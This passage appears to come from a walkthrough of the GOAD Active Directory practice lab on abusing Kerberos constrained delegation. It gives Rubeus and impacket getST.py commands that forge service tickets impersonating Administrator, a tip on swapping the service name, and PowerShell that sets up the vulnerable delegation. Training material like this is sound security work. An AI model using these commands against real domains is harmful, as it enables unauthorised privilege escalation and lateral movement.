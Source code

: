 - From windows with Rubeus:

```powershell
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:CIFS/winterfell /ptt
```

- From linux with impacket:

```bash
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

- And next we can use the TGS to connect to smb and get a shell with psexec, smbexec, wmiexec, ...

![delegation_constrained_any_linux.png](/assets/blog/GOAD/delegation_constrained_any_linux.png)

> A good thing to know is that the SPN part is not encrypted in the request, so you can change it to the one you want with the following options :
> - on rubeus : /altservice
> - on impacket : -altservice
{: .prompt-tip }


> SPN lists
> Carlos Polop (hacktricks), give a us a useful list of the common SPN and usage on his [silver ticket page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)
{: .prompt-info }


#### Without protocol transition

- The constrained delegation with protocol transition was not present originally in the lab, but you can add it with the following commands :

```bash
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml -l dc02 --tags "data,constrained_delegation_kerb"
```

- Or you could add it by hand with the powershell commands :

```powershell
Set-ADComputer -Identity "castelblack$" -ServicePrincipalNames @{Add='HTTP/winterfell.north.sevenkingdoms.local'}
Set-ADComputer -Identity "castelblack$" -Add @{'msDS-AllowedToDelegateTo'=@('HTTP/winterfell.north.sevenkingdoms.local','HTTP/winterfell')}
```
